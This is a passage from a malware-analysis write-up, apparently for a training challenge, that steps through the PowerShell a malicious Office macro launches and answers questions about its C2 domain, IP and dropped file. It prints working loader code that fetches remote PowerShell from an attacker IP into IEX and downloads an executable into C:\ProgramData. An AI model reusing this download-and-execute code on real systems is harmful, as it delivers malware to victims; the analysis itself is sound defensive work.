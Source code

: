We can already see that the command invokes powershell, bypassing the default execution policy and passing it a base64 encoded command. Applying the "[" / "A" replacement discovered in the macro and base64 decoding the result reveals the code executed by the powershell instance spawned by the Macro's call to Shell. We will go through this code step-by-step to have a better idea of what the malware is doing, but I've also [included it in full for reference](./attacker1.ps1).

## 4. Code Analysis

*Q1: What is the malicious C2 domain you found in the maldoc where an executable download was attempted?*  
*Q2: What executable file is the maldoc trying to drop?*  
*Q3: In what folder is it dropping the malicious executable?*  
*Q4: Provide the name of the COM object the maldoc is trying to access.*  
*Q5: Include the malicious IP and the php extension found in the maldoc*  

The code begins by creating an instance of a [WebClient](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient?view=net-5.0) and a list of it's available methods, allowing the code to make HTTP requests : 

```ps1
$instance = [System.Activator]::CreateInstance("System.Net.WebClient");
$method = [System.Net.WebClient].GetMethods();
```

The code then iterates over the list of methods looking for "[DownloadString](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.downloadstring?view=net-5.0)" and "[DownloadData](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.downloaddata?view=net-5.0)". It is not immediately clear why the code doesn't invoke these methods of the WebClient class directly, but it may be an attempt to avoid automated detection. 

DownloadString is used to make a request (`$m.Invoke(...)`) to an attacker-controlled IP address. Given that the response is passed directly to Invoke-Expression (`IEX(...)`), we can presume that this request retrieves additional Powershell code to be executed on the host :

```ps1
  if($m.Name -eq "DownloadString"){
    try{
     $uri = New-Object System.Uri("hxxp://176.32.35.16/704e.php")
     IEX($m.Invoke($instance, ($uri)));
    }catch{}
  }
```

DownloadData is then used is to make a request to an attacker-controlled domain, saving the response in the `$response` variable. The `$path` variable is declared to provide a directory (`[System.Environment]::GetFolderPath("CommonApplicationData")` resolves to `C:\ProgramData` in Windows10), random filename and .exe extension, before the response is saved to the `$path` location :

```ps1

  if($m.Name -eq "DownloadData"){
     try{
     $uri = New-Object System.Uri("hxxp://fpetraardella.band/xap_102b-AZ1/704e.php?l=litten4.gas")
     $response = $m.Invoke($instance, ($uri));

     $path = [System.Environment]::GetFolderPath("CommonApplicationData") + "\\QdZGP.exe";
     [System.IO.File]::WriteAllBytes($path, $response);
```
